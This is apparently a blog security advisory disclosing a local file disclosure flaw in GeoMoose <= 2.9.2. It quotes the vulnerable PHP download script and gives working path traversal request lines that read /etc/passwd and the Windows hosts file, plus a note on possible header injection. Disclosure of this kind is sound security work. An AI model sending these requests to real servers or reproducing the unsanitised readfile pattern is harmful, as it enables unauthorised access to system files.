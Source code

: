 Title: GeoMoose <= 2.9.2 Local File Disclosure
Author: dsc
Date: 2017-03-7 11:12
Tags: advisory, exploits
Slug: geomoose-local-file-disclosure-2-9-2

## Advisory

GeoMOOSE is a PHP framework for displaying distributed cartographic data. Bundled with M4SW, GeoMoose can be found on 
GIS services ran by scientific institutions and local governments.

    :::php5
    <?php
    $tempDir = $CONFIGURATION['temp'];
    $id = $_REQUEST['id'];
    $ext = $_REQUEST['ext'];
    $as_download = $_REQUEST['download'];
    $mimetypes = array(
        'pdf' => 'application/pdf',
        'jpeg' => 'image/jpeg',
        'png' => 'image/png',
        'gif' => 'image/gif',
        'html' => 'text/html',
        'csv' => 'text/csv'
    );
    header('Content-type: '.$mimetypes[$ext]);
    if($as_download == 'true') {
        header('Content-Disposition: attachment; filename=download_'.getmypid().time().'.'.$ext);
    }
    readfile($tempDir.$id.'.'.$ext);
    ?>

This one is easy.
    
    :::bash
    # Exploit Title: GeoMoose <= 2.9.2 Local File Disclosure
    # Exploit Author: Sander 'dsc' Ferdinand
    # Date: 2017-03-4
    # Version: <= 2.9.2
    # Blog: https://ced.pwned.systems
    # Vendor Homepage: geomoose.org
    # Reported: 4-3-2017
    # Vendor response: http://osgeo-org.1560.x6.nabble.com/Geomoose-users-GeoMoose-Security-Issue-td5315873.html
    # Software Link: https://github.com/geomoose/geomoose
    # Tested on: Windows/Linux
    # CVE : none
    
    /php/download.php?id=foo/.&ext=/../../../../../../../etc/passwd
    /php/download.php?id=foo/.&ext=/../../../../../../../WINDOWS/system32/drivers/etc/hosts
    
Header injection possible depending on the [PHP version](http://php.net/manual/en/function.header.php#refsect1-function.header-changelog).